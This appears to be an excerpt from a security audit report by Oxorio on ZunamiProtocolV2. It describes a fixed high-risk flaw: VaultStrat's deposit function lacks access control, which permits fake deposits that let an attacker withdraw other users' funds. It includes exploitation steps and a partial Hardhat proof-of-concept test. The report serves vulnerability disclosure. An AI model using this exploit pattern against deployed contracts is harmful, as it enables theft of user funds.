 **Auditors**

[Oxorio](https://oxor.io)

# Findings

## High Risk

#### [FIXED] No access control for `deposit` function call in `VaultStrat`
##### Location
File | Location | Line
--- | --- | ---
[VaultStrat.sol](https://github.com/ZunamiProtocol/ZunamiProtocolV2/tree/8bc108201bef8c4d341ecd3a29a3b1d975019cec/contracts/strategies/VaultStrat.sol#L30 "/contracts/strategies/VaultStrat.sol") | contract `VaultStrat` > function `deposit` | 30

##### Description
The `deposit` function of the `VaultStrat` contract has an `external` visibility modifier and can be called by any address without permissions. An attacker can make a fake deposit to the `VaultStrat` contract by directly calling the `deposit` function without any token value. This leads to incorrect computation of the withdrawal value during withdrawal from the strategy. The process can be exploited as follows:
- Honest users deposit to `VaultStrat` through the controller.
- The attacker makes a low deposit to `VaultStrat` through the controller.
- The attacker makes a fake deposit to `VaultStrat` directly.
- The attacker withdraws all funds from `VaultStrat` through the controller.

```ts
  it('open deposit method in VaultStrat', async () => {
    const {
        alice,
        bob,
        zunamiPool,
        zunamiPoolController,
        strategies,
        usdt,
    } = await loadFixture(deployFixture);

    // add VaultStrat to zunamiPoolController
    const strategy = strategies[0];
    await zunamiPool.addStrategy(strategy.address);

    await zunamiPoolController.setDefaultDepositSid(0);
    await zunamiPoolController.setDefaultWithdrawSid(0);

    // Alice deposits 100 to VaultStrat
    await expect(
        zunamiPoolController
            .connect(alice)
            .deposit(getMinAmountZunUSD('100'), alice.getAddress())
    ).to.emit(zunamiPool, 'Deposited');

    // Bob deposits 100 to VaultStrat
    await expect(
        zunamiPoolController
            .connect(bob)
            .deposit(getMinAmountZunUSD('100'), bob.getAddress())
    ).to.emit(zunamiPool, 'Deposited');

    // Bob makes fake deposit to VaultStrat
    await strategy.connect(bob).deposit(getMinAmountZunUSD('200'))

```